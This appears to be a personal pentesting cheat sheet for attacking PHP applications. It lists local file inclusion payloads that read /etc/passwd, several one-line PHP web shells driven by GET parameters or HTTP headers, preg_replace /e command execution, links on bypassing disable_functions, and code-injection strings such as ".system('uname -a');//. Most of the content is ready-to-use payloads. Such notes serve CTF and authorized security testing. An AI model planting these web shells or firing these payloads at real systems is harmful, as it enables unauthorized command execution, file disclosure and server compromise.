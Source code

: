 PHP


## Check for registered php stream

- with a lfi you can do some tricks : example :`configfile=../../../../../../../etc/passwd`

- You may need to add %00 at the end.

- if file is allowed : ```=file:///etc/passwd```

data, php ...

https://dzone.com/articles/the-powerful-resource-of-php-stream-wrappers

---

## Function

- Could be helpful : ```system```, ```shell_exec```

- Know which are enabled : ```php -r 'print_r(get_defined_functions());' | grep -E ' (system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)'<?php print_r(get_defined_functions()); ?>```

---

## Execute command :

1.
```
<?php $_SERVER['HTTP_LANG']($_SERVER['HTTP_ACCEPT-LANGUAGE']); ?>

curl -H "Lang: system" -H "Accept-Language: <cmd>" ...
```

2. 
```
<?php system($_SERVER['HTTP_LANG']); ?>
curl -H "Lang: <cmd>"...
```

3.
```
<?php system($_GET['cmd']);?>
http://url/fichier/?cmd=
```

4.
```
<?php system($_REQUEST['cmd']); ?>

file.php&cmd=whoami
```

5. The only limitation is your brain. Try hard !

https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/


---

## Preg_replace :

Experimenting with the functionality of the VPNGenerator, it is easy  to spot what it does. A placeholder string in the VPN generator window  is substituted for a custom input via preg_replace() php function. Older implementations of preg_replace() are vulnerable to a remote command execution using /e  specifier if you know how to approach it! I suggest doing your own  research on the function if you are unfamiliar with php. Here are some  links to help you:
  • https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace
  • http://www.madirish.net/402
  • http://php.net/manual/en/function.preg-replace.php
 
 `preg_replace(/x/e, system("id"), x)`
 ---
 
## Bypass disable_functions

  https://0xdf.gitlab.io/2019/08/02/bypassing-php-disable_functions-with-chankro.html
  
  https://0xdf.gitlab.io/2021/01/23/htb-compromised.html
  

---

## Code execution

- Comments : In PHP, you can use `//` to get rid of the code added by the application.

- As SQL injection, you can use the same technique to test and ensure you have a code injection:

	- Using comments and injecting: `/* <random value> */`, `<command>;#`, `".<command>;//.`
	- Injecting a simple concatenation `"."` (`"` used to break the syntax and reform it correctly).
	- Replacing the parameter you provided by a string concatenation: `"."th"."is"."` instead of `this`.
	- add code : `$test=".`

- You can also use time-based detection for this issue by using the PHP function sleep. You will see a time difference between:

	- Calling the function sleep or calling it with a delay of zero: `sleep(0)`.
	- A call to the function with a long delay: `sleep(10)`.

Examples : 

- By adding some code: `".system('uname -a'); $dummy="`
- By using comment: `".system('uname -a');#` or `".system('uname -a');//`
- `'.'`, if it works, try adding some function : `'.phpinfo().'`
- Don't forget to url encode if necessary.

Use the error message to understand how you can exit the context (what should I do to end it ? `; ) } // ' " +`). Examples : 

`?order=id;}//:` we get an error message (Parse error: syntax error, unexpected ';'). We are probably missing one or more brackets.
`?order=id);}//:` we get a warning. That seems about right.
`?order=id));}//:` we get an error message (Parse error: syntax error, unexpected ')' i). We probably have too many closing brackets.


